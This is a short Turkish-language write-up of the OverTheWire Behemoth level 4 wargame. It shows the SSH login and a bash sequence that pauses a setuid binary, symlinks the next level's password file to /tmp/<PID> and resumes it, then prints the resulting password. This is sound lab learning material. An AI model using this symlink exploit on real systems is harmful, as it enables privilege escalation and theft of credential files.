


# Behemoth: Level 4 Writeup

    ssh behemoth4@behemoth.labs.overthewire.org -p 2221
    password: ietheishei



Programı çalıştırdığımız zaman `PID` not found diyerek bir hata veriyor. Yani aslında olmayan bir PID arıyor. Eğer biz program başladığı sırada duraklatıp aradığı `PID` ismine sahip bir dosya oluşturup onu da okumak istediğimiz parola dosyası ile sembolik bağlantısını kursak ve en sonunda da işlemi geri devam ettirsek nasıl olur 🤔 

```bash
/behemoth/behemoth4&
PID=$!
kill -STOP $PID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID
kill -CONT $PID
echo $PID
```



`behemoth5:aizeeshing`
